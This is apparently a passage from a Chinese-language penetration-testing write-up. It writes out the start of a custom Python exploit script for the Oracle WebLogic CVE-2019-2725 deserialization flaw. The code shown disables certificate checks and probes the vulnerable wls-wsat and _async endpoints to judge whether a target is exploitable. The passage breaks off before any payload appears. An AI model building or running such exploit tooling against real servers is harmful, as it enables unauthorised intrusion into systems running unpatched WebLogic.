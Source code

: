 由于公开脚本存在问题，我们创建专用的CVE-2019-2725利用脚本：

```bash
# 创建自定义利用脚本
cat > weblogic_cve_2019_2725_exploit.py << 'EOF'
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
WebLogic CVE-2019-2725 专用利用脚本
修复了公开脚本的参数解析问题
"""

import requests
import sys
import argparse
from urllib3.packages.urllib3.exceptions import InsecureRequestWarning

# 禁用SSL警告
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

class WebLogicCVE2019_2725Exploit:
    def __init__(self, target_url):
        self.target_url = target_url.rstrip('/')
        self.session = requests.Session()
        self.session.verify = False
  
        # 攻击路径
        self.wsat_path = "/wls-wsat/CoordinatorPortType"
        self.async_path = "/_async/AsyncResponseService"
  
        # HTTP头
        self.headers = {
            'Content-Type': 'text/xml; charset=UTF-8',
            'SOAPAction': '',
            'User-Agent': 'Mozilla/5.0 (compatible; CVE-2019-2725-PoC)'
        }
  
    def test_vulnerability(self):
        """测试漏洞是否存在"""
        print(f"[*] 测试目标: {self.target_url}")
  
        # 检测wls-wsat组件
        wsat_url = f"{self.target_url}{self.wsat_path}"
        try:
            response = self.session.get(wsat_url, timeout=10)
            print(f"[+] wls-wsat组件状态: {response.status_code}")
            if response.status_code in [200, 500]:
                print("[+] wls-wsat组件可访问，存在CVE-2019-2725漏洞风险")
                return True
        except Exception as e:
            print(f"[-] wls-wsat组件测试失败: {e}")
  
        # 检测async组件
        async_url = f"{self.target_url}{self.async_path}"
        try:
            response = self.session.get(async_url, timeout=10)
            print(f"[+] async组件状态: {response.status_code}")
            if response.status_code in [200, 500]:
                print("[+] async组件可访问，存在CVE-2019-2725漏洞风险")
                return True
        except Exception as e:
            print(f"[-] async组件测试失败: {e}")
  
        return False
```